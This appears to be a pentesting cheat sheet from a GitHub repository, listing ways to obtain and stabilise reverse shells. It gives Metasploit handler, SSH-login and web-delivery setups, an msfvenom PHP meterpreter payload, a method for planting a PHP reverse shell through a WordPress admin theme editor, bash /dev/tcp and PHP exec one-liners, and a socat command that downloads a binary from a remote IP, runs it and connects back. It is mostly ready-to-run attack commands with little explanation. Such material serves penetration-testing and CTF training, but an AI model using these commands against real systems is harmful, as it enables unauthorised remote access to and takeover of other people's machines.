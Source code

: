 # Reverse Shell
## Metasploit
### msfconsole
- Get meterpreter session with SSH login
```bash
use auxiliary/scanner/ssh/ssh_login
set rhosts 0.0.0.0
set username user
set password pass
run
sessions -u 1
- Meterpreter listener
```bash
$ msfconsole
use exploit/multi/handler
set lhost 0.0.0.0
set lport 4444
set payload linux/x64/meterpreter/reverse_tcp
```
- PHP Web Delivery
```bash
$ msfconsole
use exploit/multi/script/web_delivery
set payload php/meterpreter/reverse_tcp
set target PHP
set lhost tun0
run
```

### msfvenom payload
- PHP Meterpreter
```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=<local ip address> LPORT=<local listening port> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```

## Payload
___
### PHP
- Get reverse shell from Wordpress admin dashboard using themes edition
```
Login as admin, and edit a theme's php file.
Replace content with Pentest Monkey's php-reverse-shell
Browse file : http://hostname/wordpress/wp-content/themes/themename/file.php
```

- Basic PHP command line to open a shell
```php
exec("/bin/bash -c 'bash -i >& /dev/tcp/0.0.0.0/4445 0>&1'");
```

## OS Command
- Bash command to open shell
```sh
bash -c 'bash -i >& /dev/tcp/0.0.0.0/4444 0>&1'
```

- Socat Shell
```sh
wget -q 10.6.77.211/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.6.77.211:443
```

# Stabilizing shell
___
- Upgrade shell to bash/pty

```bash
python3 -c "import pty;pty.spawn('/bin/bash')"
export TERM=xterm
export SHELL=bash
export TERM=xterm-256color
stty rows 91 columns 190
```

## Links
___
### Guides
- https://www.hackingarticles.in/wordpress-reverse-shell/
- https://github.com/pentestmonkey/php-reverse-shell
- http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
- https://netsec.ws/?p=331
- https://gtfobins.github.io/

### Writeups
- 
